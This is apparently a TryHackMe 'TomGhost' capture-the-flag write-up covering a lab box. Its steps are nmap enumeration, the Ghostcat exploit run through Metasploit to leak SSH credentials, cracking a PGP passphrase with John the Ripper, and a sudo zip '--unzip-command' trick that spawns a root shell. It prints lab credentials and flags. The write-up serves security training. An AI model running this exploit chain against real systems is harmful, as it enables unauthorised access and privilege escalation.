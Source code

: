 ```yaml
---
title: "TomGhost"
date: 2022-09-20T16:00:31+01:00
draft: false
categories:
  - TryHackMe
---
```


{{< post-img src="tomcat.jpeg" alt="tomcat" style="width: 200px;" >}}

## Enumeration

```bash
PORT     STATE    SERVICE       REASON      VERSION
22/tcp   open     ssh           syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw
53/tcp   open     tcpwrapped    syn-ack
726/tcp  filtered unknown       no-response
5033/tcp filtered jtnetd-server no-response
8009/tcp open     ajp13         syn-ack     Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open     http          syn-ack     Apache Tomcat 9.0.30
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache Tomcat/9.0.30
|_http-favicon: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Apache tomcat server on port 8080 but no website is setup?

we search an exploit and with metasploit we use this

```bash
msf6 auxiliary(admin/http/tomcat_ghostcat) > run
[*] Running module against 10.10.212.86
Status Code: 200
Accept-Ranges: bytes
ETag: W/"1261-1583902632000"
Last-Modified: Wed, 11 Mar 2020 04:57:12 GMT
Content-Type: application/xml
Content-Length: 1261

<?xml version="1.0" encoding="UTF-8"?>
<!--
Licensed to the Apache Software Foundation (ASF) under one or more
contributor license agreements.  See the NOTICE file distributed with
this work for additional information regarding copyright ownership.
The ASF licenses this file to You under the Apache License, Version 2.0
(the "License"); you may not use this file except in compliance with
the License.  You may obtain a copy of the License at

http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.
-->

<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
version="4.0"
metadata-complete="true">

<display-name>Welcome to Tomcat</display-name>
<description>
Welcome to GhostCat
skyfuck:8730281lkjlkjdqlksalks
</description>

</web-app>

[+] 10.10.212.86:8080 - /home/its_a_me/.msf4/loot/20211029191143_default_10.10.212.86_WEBINFweb.xml_261102.txt
[*] Auxiliary module execution completed
```

Found credentials:

`skyfuck : 8730281lkjlkjdqlksalks`

ssh port open maybe we can ssh with those

bingo!

```bash
skyfuck@ubuntu:~$ whoami
skyfuck
```

we go straight home and find two folders
user merlin got our user flag

```bash
THM{tomcat_is_dead}
```

## Privilege Escalation

The second folder have two files pgp and asc files
Might be key for decryption and privileges escalation?
I want those files...so I get them
I scp the whole skyfck folder from another terminal with

`scp -r skyfuck@10.10.152.29:/home/skyfuck .`

Time to crack that pgp
Tried to import the key but it asked for secret wordpass...which I do not have
So we do some magic

`gpg2john tryhackme.asc > tryhackme.john`

its always rockyou.txt

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt tryhackme.john
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
alexandru (tryhackme)
1g 0:00:00:01 DONE (2021-10-29 20:05) 0.6896g/s 739.3p/s 739.3c/s 739.3C/s chinita..alexandru
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

alexandru? what a passphrase

Anyway where were we?

```bash
gpg --import tryhackme.asc

gpg: clef 8F3DA3DEC6707170 : « tryhackme <stuxnet@tryhackme.com> » n'est pas modifiée
gpg: clef 8F3DA3DEC6707170 : clef secrète importée
gpg: clef 8F3DA3DEC6707170 : « tryhackme <stuxnet@tryhackme.com> » n'est pas modifiée
gpg: Quantité totale traitée : 2
gpg: non modifiées : 2
gpg: clefs secrètes lues : 1
gpg: clefs secrètes importées : 1
```

we check if its imported

```bash
gpg --list-secret-keys
/home/my_username/.gnupg/pubring.kbx

---

sec rsa1024 2020-06-30 [SC]
BBE208F0233D64B655742C07FFA4B5252BAEB2E6
uid [ inconnue] TryHackMe (Example Key)
ssb rsa1024 2020-06-30 [E]

sec dsa3072 2020-03-11 [SCA]
14B3794D5554349A715CDBA08F3DA3DEC6707170
uid [ inconnue] tryhackme <stuxnet@tryhackme.com>
ssb elg1024 2020-03-11 [E]
```

indeed..now we decrypt and output to a txt file

it tell us the ELG encryption method is unknown but anyway we cracked it

```bash
$gpg --output ./decrypted_credentials.txt --decrypt ./credential.pgp
gpg: Attention : l'algorithme de chiffrement CAST5 est introuvable
dans les préférences du destinataire
gpg: chiffré avec une clef ELG de 1024 bits, identifiant 61E104A66184FBCC, créée le 2020-03-11
« tryhackme <stuxnet@tryhackme.com> »
```

we get merlin credentials

`merlin : asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

Dafuk is that password? that boy merlin got issues

lateral movement to merlin and sudo rights

```bash
skyfuck@ubuntu:~$ su merlin
Password:
merlin@ubuntu:/home/skyfuck$

merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
(root : root) NOPASSWD: /usr/bin/zip
```

Lets ask gtfobins how to abuse this for shell spawn`

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

```bash
merlin@ubuntu:~$ zip
Copyright (c) 1990-2008 Info-ZIP - Type 'zip "-L"' for software license.
Zip 3.0 (July 5th 2008). Usage:
zip [-options] [-b path] [-t mmddyyyy] [-n suffixes] [zipfile list] [-xi list]
The default action is to add or replace zipfile entries from list, which
can include the special name - to compress standard input.
If zipfile and list are omitted, zip compresses stdin to stdout.
-f freshen: only changed files -u update: only changed or new files
-d delete entries in zipfile -m move into zipfile (delete OS files)
-r recurse into directories -j junk (don't record) directory names
-0 store only -l convert LF to CR LF (-ll CR LF to LF)
-1 compress faster -9 compress better
-q quiet operation -v verbose operation/print version info
-c add one-line comments -z add zipfile comment
-@ read names from stdin -o make zipfile as old as latest entry
-x exclude the following names -i include only the following names
-F fix zipfile (-FF try harder) -D do not add directory entries
-A adjust self-extracting exe -J junk zipfile prefix (unzipsfx)
-T test zipfile integrity -X eXclude eXtra file attributes
-y store symbolic links as the link instead of the referenced file
-e encrypt -n don't compress these suffixes
-h2 show more help
```

Technically we can abuse the `-T` flag that test a zip file integrity by running `--unzip-commands`
we create somefile and use `1` to zip faster

```bash
merlin@ubuntu:~$ touch somefile.txt
merlin@ubuntu:~$ ls
somefile.txt user.txt
merlin@ubuntu:~$ sudo zip 1.zip somefile.txt -T --unzip-command="sh -c /bin/bash"
adding: somefile.txt (stored 0%)
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Now we get our flag

```bash
root@ubuntu:/root# cat root.txt
THM{tomcat_ghost}
```

we find another `ufw` folder with a sh script

```bash
root@ubuntu:/root# cd ufw
root@ubuntu:/root/ufw# ls
ufw.sh
root@ubuntu:/root/ufw# ./ufw.sh
Firewall stopped and disabled on system startup
```

lol ok we control the firewall
nice room
